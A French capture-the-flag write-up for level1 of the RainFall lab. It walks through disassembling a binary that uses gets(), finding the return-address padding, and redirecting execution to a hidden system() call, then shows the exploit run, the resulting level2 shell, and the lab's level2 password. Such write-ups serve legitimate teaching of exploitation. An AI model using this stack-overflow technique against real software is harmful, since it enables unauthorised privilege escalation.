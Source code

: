 # Level1

### Premier etape - tester le binaire

	$ ./level1
	$

	$ ./level1
	$ test


Rien ne se passe alors nous allons objdump -D le binaire pour voir ce qu'il fait exactement

```s
08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
 8048486:	83 ec 50             	sub    $0x50,%esp
 8048489:	8d 44 24 10          	lea    0x10(%esp),%eax
 804848d:	89 04 24             	mov    %eax,(%esp)
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave  
 8048496:	c3                   	ret    
 8048497:	90                   	nop
 8048498:	90                   	nop
 8048499:	90                   	nop
 804849a:	90                   	nop
 804849b:	90                   	nop
 804849c:	90                   	nop
 804849d:	90                   	nop
 804849e:	90                   	nop
 804849f:	90                   	nop
```

Nous pouvons voir un petit main avec un buffer char de 75 octets qui serra utiliser pour stocker la valeur de retour de la fonction gets(function libc)

Une fois gets executer le programme effectue une serie de no op et se termine.

Conclusion : Le programme stock ce que nous rentrons en prompt avec gets et s'arrete

### INFO
``La fonction gets est une fonction vulnerable permettant les overflow ce qui est extrement dangereux pour le systeme mais pour nous cela est parfait ! ``



### Nous remarquons une autre fonction ecrite mais pas utiliser qui s'appelle run :

```c
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret
```

En lisant ce code nous remarquons tout de suite que cette fonction exécute une commande système dont la chaîne est stockée à l’adresse de retour de fwrite(stdout)

### INFO
``la fonction <run> est un code mallicieux classique proteger aujourd hui par la memoire canari``


### OVERFLOW EIP PANDING

Nous allons proceder a un overflow et calculer combien d'octet ils nous faut pour ecrasser le pointeur d'instruction

``` 
1. print("A"*75) qui est le nombre d'octet du buffer char de gets
2. On ajoute 4 octet par 4 octet de caractere specifique pour atteindre la memoire ret
3. une fois effectuer nous allons soustraire les octets pour injecter au pointeur d'instruction d'adresse de la fonction <RUN>
```

nous n'avons plus qu'a creer un programme python qui ferra cette etape pour nous pour injecter le code mallicieux dans le dossier sources

```b
$level1@RainFall:/tmp$ (python ./exploit.py; cat) | ~/level1
Good... Wait what?
$id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
$cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```



et OP ! nous avons un terminal ouvert dont l'euid est level2 !
gg wp.